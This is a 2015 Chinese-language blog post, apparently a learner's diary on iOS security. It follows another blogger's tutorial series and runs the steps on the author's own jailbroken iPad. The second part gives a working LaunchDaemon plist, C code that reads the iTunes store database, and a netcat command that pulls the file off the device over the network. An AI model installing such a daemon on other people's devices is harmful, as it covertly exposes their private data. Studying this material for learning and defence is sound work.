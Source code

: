 ```yaml
---
title: iOS安全-学习日记1
author: young
layout: post
dsq_thread_id:
  - 3579819693
categories:
  - 计算机
  - security
tags:
  - iOS
  - security
date: 2015-03-08
---
```

# 前(fei)言(hua)

上班之余，自学一些计算机安全一类的知识。有相关经验的同学给了我几个建议：1.计算机安全范围很广，有web啦，sql啦，移动端啦balabala，自己选择一个自己感兴趣的较窄的学习就好。2. 社区，乌云，看雪

我自己对iOS还有些兴趣，遂决定开始自学iOS安全。乌云我是连注册都没资格，需要提交漏洞才行，我这什么相关知识都不会，只先看看好了。在谷歌上搜了搜，很容易搜到CSDN上念茜的《iOS安全攻防》这个看上去知识比较浅一点，应该会适合我。那么就一课一课开始学。她写的相关博文是一两年前了，不一定百分之百能适用于当前的环境，不过正好是增加学习难度的机会。也可以用自己的博文来更新和更加详细的注释一下她的博客，更容易让初学者学习到。

#  iOS安全攻防（一）：Hack必备的命令与工具

[念茜博客原文地址][1]

先是一些操作系统的基本的命令，我用过并且略有了解的如下：ps, netstat, route, ifconfig, tcpdump, gdb, ssh

然后我没有接触过的：

sysctl：检查设定Kernel配置；renice：调整程序运行的优先级；lsof：列出当前系统打开的文件列表，一切皆文件包括网络，硬件设备；patch：补丁工具。

然后她有特意注释的三个工具，otool，可以查看可执行程序都链接了哪些库，nm，显示符号表，ldid，用于给需要运行在iOS上的程序签名用。otool和nm在自己的mac电脑上有，os x上我没找到ldid，于是在ipad上用cydia装了ldid。不过之后的实验中好像不签名也能运行来着。

<!--more-->

她的步骤一找编译器和SDK，她找的是llvm-gcc，我用的是clang，然后找到SDK的地址，很顺找到利/Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS8.1.sdk

helloworld.c这是上大学第一堂C语言课就学了的。

我编译helloword用的命令为

<pre class="lang:sh decode:true">clang -o hello -arch armv7s hello.c -isysroot /Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/SDKs/iPhoneOS8.1.sdk
</pre>

-arch后面得注意了，什么型号对应什么CPU，自己上网查查先。很容易在[stackoverflow][2]上找到当前的一些设备的信息。

<div>
  ARMv8 / ARM64 = iPhone 5s, iPad Air, Retina iPad Mini
</div>

<div>
  ARMv7s = iPhone 5, iPhone 5c, iPad 4
</div>

<div>
  ARMv7  = iPhone 3GS, iPhone 4, iPhone 4S, iPod 3G/4G/5G, iPad, iPad 2, iPad 3, iPad Mini
</div>

<div>
  ARMv6  = iPhone, iPhone 3G, iPod 1G/2G
</div>

<div>
  -isysroot是用来指定SDK的。
</div>

<div>
  build出一个可执行文件，然后scp到我的ipad。然后ssh上去，ldid给这个可执行文件签名。再执行，就能看到helloworld了。
</div>

<div>
  这次实践下来最耗时的是自己上网去找到编译器clang和发现自己cpu型号写错这两个点，当打印出helloworld时，自己还是有欣喜感的。
</div>

# iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息

<div>
  <a href="http://blog.csdn.net/yiyaaixuexi/article/details/8293020">念茜博客原文地址</a>
</div>

### 开机自启动程序

新建plist属性文件，按照她给的例子弄一个好了，然后稍微注意一下plist中的一些value，可执行文件的名字，就是之后步骤build出mydemo这个可执行文件，socket端口号自己记住一下，之后步骤有用到，这里用的是55

<pre class="lang:xhtml decode:true">&lt;?xml version="1.0" encoding="UTF-8"?&gt;  
&lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;  
&lt;plist version="1.0"&gt;  
&lt;dict&gt;  
    &lt;key&gt;Program&lt;/key&gt;  
    &lt;string&gt;/usr/bin/mydemo&lt;/string&gt;  
    &lt;key&gt;StandardErrorPath&lt;/key&gt;  
    &lt;string&gt;/dev/null&lt;/string&gt;  
    &lt;key&gt;SessionCreate&lt;/key&gt;  
    &lt;true/&gt;  
    &lt;key&gt;ProgramArguments&lt;/key&gt;  
    &lt;array&gt;  
        &lt;string&gt;/usr/bin/mydemo&lt;/string&gt;  
    &lt;/array&gt;  
    &lt;key&gt;inetdCompatibility&lt;/key&gt;  
    &lt;dict&gt;  
        &lt;key&gt;Wait&lt;/key&gt;  
        &lt;false/&gt;  
    &lt;/dict&gt;  
    &lt;key&gt;Sockets&lt;/key&gt;  
    &lt;dict&gt;  
        &lt;key&gt;Listeners&lt;/key&gt;  
        &lt;dict&gt;  
            &lt;key&gt;SockServiceName&lt;/key&gt;  
            &lt;string&gt;55&lt;/string&gt;  
        &lt;/dict&gt;  
    &lt;/dict&gt;  
&lt;/dict&gt;  
&lt;/plist&gt;</pre>

这里是她原文中的，根据Google出来的信息，还需要添加一个

<pre class="lang:xhtml decode:true">&lt;key&gt;label&lt;/key&gt;
&lt;string&gt;mydemo&lt;/string&gt;</pre>

然后她是将这个plist文件scp到设备的/System/Library/LaunchDaemons/目录下了，之后的步骤我都做好之后，试了半天没啥反应，估计是这里错了，后来从:[http://iphonedevwiki.net/index.php/Updating\_extensions\_for\_iOS\_8#What\_is\_new\_in\_iOS\_8.2C\_and\_how\_does\_it\_work.3F][3]  找到了原因。新版iOS的玩法略有不同，需要把plist文件放在目录 /Library/LaunchDaemons/下，然后用命令load /Library/LaunchDaemons/mydemo.plist即可。

### 编写读取某特定文件的程序

她是用的这样的C代码来读取某文件内容输出到标准输出流。

<pre class="lang:c decode:true ">#include &lt;stdio.h&gt;  
#include &lt;fcntl.h&gt;  
#include &lt;stdlib.h&gt;  
  
#define FILE "/var/mobile/Library/com.apple.itunesstored/itunesstored2.sqlitedb"  
  
int main(){  
    int fd = open(FILE, O_RDONLY);  
    char buf[128];  
    int ret = 0;  
      
    if(fd &lt; 0)  
        return -1;  
    while (( ret = read(fd, buf, sizeof(buf))) &gt; 0){  
        write( fileno(stdout), buf, ret);  
    }  
    close(fd);  
    return 0;  
}</pre>

据说那个文件里能找到你安装了哪些app，经我实践，好像有些不一样，不知道是apple给这个文件加密或者混淆了还是怎么着，反正这么弄直接出来的结果，是看不到多少信息的，不过可以从那个目录下的其他的一些sqlitedb文件获取到类似的信息。

build这个文件为mydemo，然后scp到设备上，然后ldid -S mydemo，然后mv到/usr/bin目录下。

应该是这个程序就在后台开始运行了，或者重启设备之后mydemo就开始运行了

### netcat获取文件内容

<div>
  自己的电脑和ipad连在同一个wifi下，然后得知道ipad的ip地址。
</div>

<div>
  nc ip 55 > itunesstored2.sqlitedb
</div>

<div>
  这样，就能把之前C程序定义的FILE中的内容，获取到本地。然后用相应的软件来分析。
</div>

<div>
  她的博客中是用strings命令获取字符串之类的方式。我自己也从网上下载了sqlitebrowser这样的软件来打开这个文件，不过我没有直接看到我自己的app列表，尝试了一下那个目录下的其他sqlitedb文件，有类似的信息出现把。估计具体哪个文件存哪些信息可能需要之后再看看其他的说明书才能弄明白。
</div>

### 收获

Anyway，我了解了这样一个流程：通过plist文件的设置，可以从远端去获取越狱了的ipad上的指定文件的方法。

 [1]: http://blog.csdn.net/yiyaaixuexi/article/details/8288077
 [2]: http://stackoverflow.com/questions/6517822/do-i-need-to-add-armv6-support-when-limiting-apps-to-ios-4-0
 [3]: http://iphonedevwiki.net/index.php/Updating_extensions_for_iOS_8#What_is_new_in_iOS_8.2C_and_how_does_it_work.3F